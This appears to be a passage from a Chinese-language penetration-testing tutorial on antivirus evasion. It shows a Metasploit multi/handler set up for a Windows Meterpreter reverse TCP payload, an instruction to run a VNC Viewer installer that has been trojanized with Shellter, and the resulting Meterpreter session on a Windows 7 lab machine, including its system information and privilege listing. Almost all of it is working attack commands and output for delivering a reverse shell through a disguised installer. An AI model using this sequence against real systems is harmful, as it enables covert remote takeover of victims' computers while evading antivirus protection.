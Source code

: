 ```
┌──(root㉿kali)-[~]
└─# msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.213.128
LHOST => 192.168.213.128
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.213.128:1234 
```

点击AVBypass中Shellter生成的VNC Viewer Installer。

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.213.128:1234 
[*] Sending stage (175686 bytes) to 192.168.213.131
[*] Meterpreter session 1 opened (192.168.213.128:1234 -> 192.168.213.131:49262) at 2023-05-22 09:47:43 -0400

meterpreter > sysinfo
Computer        : IEWIN7
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Meterpreter     : x86/windows
meterpreter > getuid
Server username: IEWIN7\IEUser
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```
